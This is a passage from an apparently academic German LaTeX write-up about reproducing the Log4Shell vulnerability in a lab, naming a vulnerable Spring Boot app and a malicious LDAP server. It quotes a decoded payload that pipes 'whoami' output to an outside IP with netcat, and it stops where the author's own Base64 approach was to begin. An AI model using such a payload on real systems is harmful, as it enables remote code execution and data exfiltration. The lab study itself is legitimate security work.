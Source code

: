 
\subsubsection{Versuchsaufbau und Exploit}
Da die Log4j Bibliothek bereits gepatcht ist und auch sämtliche Java Versionen bereits gepatcht wurden,
wurde im Versuchsaufbau ein Git Repository verwendet.\footcite{log4jvulnerableapp} Es beinhaltet eine Java Spring Boot Web Applikation, die mit
einer Java Version läuft, die nach wie vor anfällig für Log4Shell Angriffe ist.\\
Desweiteren benötigt man einen \gls{ldap}-Server, den man selbst kontrolliert, um einen \gls{jndi}-Lookup zu provozieren. Hierfür verwendet wurde ein weiteres
Git Repository in dem ein bereits voll konfigurierter Server zur Verfügung gestellt wird. Das Repository wurde jedoch aus GitHub entfernt. Das Kompilat des schädlichen
\gls{ldap}-Servers kann nichtsdestotrotz in einem Archiv gefunden werden.\footcite{maliciousLdap}\\
Der letzte Schritt zum erfolgreichen Ausführen des Exploits ist es, eine \gls{http}-Anfrage an das Zielsystem zu senden. In der Anfrage muss nun nur noch die \gls{ip}-Addrese mit Port angegeben werden
unter denen der \gls{ldap}-Server erreichbar ist.

\bigskip

Bei der Durchführung des Exploits wurde die Base64 Funktionalität des bereits laufenden \gls{ldap}-Servers verwendet. Daher liegt das auszuführende Skript als base64-encoded String vor. Die \gls{bash} Befehle,
die hier der Reihe nach ausgeführt werden sind übersetzt: \textit{bin/bash | whoami | nc 192.168.186.216 9999}.\\
Die tatsächliche Funktionalität des Skripts konnte jedoch hierbei nicht Reverse Engineert werden. Ein eigener Ansatz einer solchen Base64 Funktionalität wäre der Folgende:\\




